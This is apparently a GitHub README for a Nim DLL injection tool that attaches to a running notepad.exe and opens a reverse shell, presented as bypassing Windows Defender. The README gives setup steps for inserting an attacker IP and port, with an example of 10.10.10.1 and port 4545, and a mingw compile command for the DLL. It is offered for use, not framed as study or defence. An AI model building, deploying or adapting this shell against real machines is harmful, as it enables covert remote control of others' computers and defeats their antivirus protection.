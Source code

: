 # Nim DLL reverse shell

A dll injection that's bypassing Windows Defender to open a reverse shell. All the code used is in /Source_code, /Demo contains a recording of the code in execution.

The launcher will look at an ongoing instance of notepad.exe, if found it will attach our dll to it. Doing so will execute the DLL_PROCESS_ATTACH section of our dll that will open a reverse shell.

[Watch a demo here]()

# How to use

Replace <IP_TO_REPLACE> and <PORT_TO_REPLACE> with the ip and port of the attacker in dll.nim at lines 12 and 14. For example :

```nim
ip = "10.10.10.1"
port = 4545
```

To compile dll.nim :

```sh
$ nim c -d=mingw --app=lib --nomain --cpu=amd64 dll.nim
```

The dll needs to be at the same path then the launcher.
